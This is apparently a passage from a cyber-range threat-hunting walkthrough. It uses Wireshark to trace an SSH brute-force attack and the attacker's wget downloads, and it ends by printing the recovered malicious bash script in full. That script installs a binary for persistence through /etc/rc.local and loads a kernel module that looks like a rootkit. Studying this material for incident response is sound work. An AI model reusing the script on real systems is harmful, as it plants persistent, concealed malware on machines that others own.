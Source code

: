 Click on the TCP tab. You can sort the Bytes in any order for more visibility.

![](https://cdn.cyberranges.com/public/user/63048870a85b7300073365c2/b7636abc_suspicious.png)

The packets highlighted 1 and 2 indicate several bytes were sent between the 2 servers hinting at a successful connection. In the section highlighted as 3, several interactions between the 2 hosts have a similar lengths of bytes. In comparison to the 1st and second sections, this indicates that several failed attempts took place.

You can also click "Limit to display filter" to select only ssh traffic (which we had specified in the display filter)

![](https://cdn.cyberranges.com/public/user/63048870a85b7300073365c2/c7ad5c0a_wireshark11.png)

The threat hunter can further look into the access logs on the system to determine what credentials resulted in a successful authentication.

Let us also look into the HTTP protocol to determine whether suspicious activities were done.

Filter for http as shown and click on the first packet:

![](https://cdn.cyberranges.com/public/user/63048870a85b7300073365c2/d38cbddc_wireshark12.png)

Expand the HTTP tab as shown:

![](https://cdn.cyberranges.com/public/user/63048870a85b7300073365c2/759df20c_wireshark13.png)

The user agent hints that **wget** was used by the attacker who brute-forced into the server for possible post-compromise attacks. **wget** is commonly used to download content from the internet.

Since it is possible that files were downloaded, we can export objects in Wireshark and see what the attacker downloaded into the system.

![](https://cdn.cyberranges.com/public/user/63048870a85b7300073365c2/de6ef0b5_wireshark14.png)

There are 3 interesting files with the name 1, 2 and 3

![](https://cdn.cyberranges.com/public/user/63048870a85b7300073365c2/935955da_wireshark15.png)

We can save the file and see what type of files they are, this will give further insight whether malware was downloaded into the machine

![](https://cdn.cyberranges.com/public/user/63048870a85b7300073365c2/a7716230_wireshark16.png)

Using the command **file** you can see 2 executables and a bash script. These are the malware in question

![](https://cdn.cyberranges.com/public/user/63048870a85b7300073365c2/0b2c5ab3_wireshark17.png)

You can cat out the bash script

```
#!/bin/bash

mv 1 /var/mail/mail
chmod +x /var/mail/mail
echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
nohup /var/mail/mail > /dev/null 2>&1&
mv 2 /lib/modules/`uname -r`/sysmod.ko
depmod -a
echo "sysmod" >> /etc/modules
modprobe sysmod
sleep 1
pidof mail > /proc/dmesg
rm 3
```

